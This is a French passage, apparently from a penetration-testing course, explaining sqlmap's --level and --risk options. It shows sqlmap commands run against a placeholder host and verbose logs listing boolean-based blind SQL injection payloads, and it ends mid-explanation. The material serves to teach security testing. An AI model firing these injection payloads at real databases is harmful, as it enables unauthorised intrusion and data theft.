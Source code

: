 Pour de telles demandes, les options `--level`et `--risk`doivent être utilisées :

-   L'option `--level`( `1-5`, par défaut `1`) étend à la fois les vecteurs et les limites utilisés, en fonction de leur espérance de réussite (c'est-à-dire que plus l'espérance est faible, plus le niveau est élevé).

-   L'option `--risk`( `1-3`, par défaut `1`) étend l'ensemble de vecteurs utilisés en fonction du risque de causer des problèmes du côté cible (c'est-à-dire le risque de perte d'entrée dans la base de données ou de déni de service).

La meilleure façon de vérifier les différences entre les limites utilisées et les charges utiles pour différentes valeurs de `--level`et `--risk`est d'utiliser l' `-v`option permettant de définir le niveau de verbosité. En verbosité 3 ou supérieure (par exemple `-v 3`), les messages contenant le utilisé `[PAYLOAD]`seront affichés, comme suit :

```
dsgsec@htb[/htb]$ sqlmap -u www.example.com/?id=1 -v 3 --level=5

...SNIP...
[14:17:07] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:17:07] [PAYLOAD] 1) AND 5907=7031-- AuiO
[14:17:07] [PAYLOAD] 1) AND 7891=5700 AND (3236=3236
...SNIP...
[14:17:07] [PAYLOAD] 1')) AND 1049=6686 AND (('OoWT' LIKE 'OoWT
[14:17:07] [PAYLOAD] 1'))) AND 4534=9645 AND ((('DdNs' LIKE 'DdNs
[14:17:07] [PAYLOAD] 1%' AND 7681=3258 AND 'hPZg%'='hPZg
...SNIP...
[14:17:07] [PAYLOAD] 1")) AND 4540=7088 AND (("hUye"="hUye
[14:17:07] [PAYLOAD] 1"))) AND 6823=7134 AND ((("aWZj"="aWZj
[14:17:07] [PAYLOAD] 1" AND 7613=7254 AND "NMxB"="NMxB
...SNIP...
[14:17:07] [PAYLOAD] 1"="1" AND 3219=7390 AND "1"="1
[14:17:07] [PAYLOAD] 1' IN BOOLEAN MODE) AND 1847=8795#
[14:17:07] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'

```

D'un autre côté, les charges utiles utilisées avec la `--level`valeur par défaut ont un ensemble de limites considérablement plus petit :

```
dsgsec@htb[/htb]$ sqlmap -u www.example.com/?id=1 -v 3
...SNIP...
[14:20:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:20:36] [PAYLOAD] 1) AND 2678=8644 AND (3836=3836
[14:20:36] [PAYLOAD] 1 AND 7496=4313
[14:20:36] [PAYLOAD] 1 AND 7036=6691-- DmQN
[14:20:36] [PAYLOAD] 1') AND 9393=3783 AND ('SgYz'='SgYz
[14:20:36] [PAYLOAD] 1' AND 6214=3411 AND 'BhwY'='BhwY
[14:20:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'

```

Quant aux vecteurs, nous pouvons comparer les charges utiles utilisées comme suit :
